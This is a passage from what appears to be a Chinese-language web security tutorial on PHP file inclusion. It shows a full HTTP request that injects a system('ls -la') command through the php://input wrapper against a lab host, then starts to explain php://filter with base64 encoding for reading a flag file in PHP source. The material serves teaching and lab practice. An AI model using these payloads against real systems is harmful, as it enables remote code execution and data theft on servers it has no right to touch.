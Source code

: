     代码被成功执行。还可以有更多的`Payload`，例如利用`system()`查看当前目录下的文件：

    ```http
    POST /security/fileinc.php?page=php://input HTTP/1.1
    Host: 192.168.206.131
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 25
    
    <?php system('ls -la') ?>
    ```

    可以看到回显：

    ![image-20240126100829554](../img/image-20240126100829554.png)

    综上：`php://input`是一个相当危险的协议，因为它可以导致任意代码执行。

    

  + **`php://filter`协议：**`php://filter` 是 PHP 中一个非常强大的伪协议，它用于在文件包含或文件操作过程中应用各种过滤器。通过这个伪协议，可以在数据被 PHP 脚本读取之前对其进行转换或处理。这在处理输入和输出数据时尤其有用，可以用于数据的加密、解密、压缩、解压缩等。

    `php://filter`协议的语法如下：

    ```php
    php://filter/[Option]/resource=[File Path]
    // Oprion包括 read（读取过滤器）、write（写入过滤器）和convert（转换过滤器）
    // File Path 为具体要处理的文件或流
    // 例如
    php://filter/read=convert.base64-encode/resource=myfile.txt
    ```

    假设服务器上有一个包含敏感信息（如一个标记）的 PHP 文件，如下所示：

    ```php
    <?php
        $flag = "flag{php_is_very_strong}";
    ```
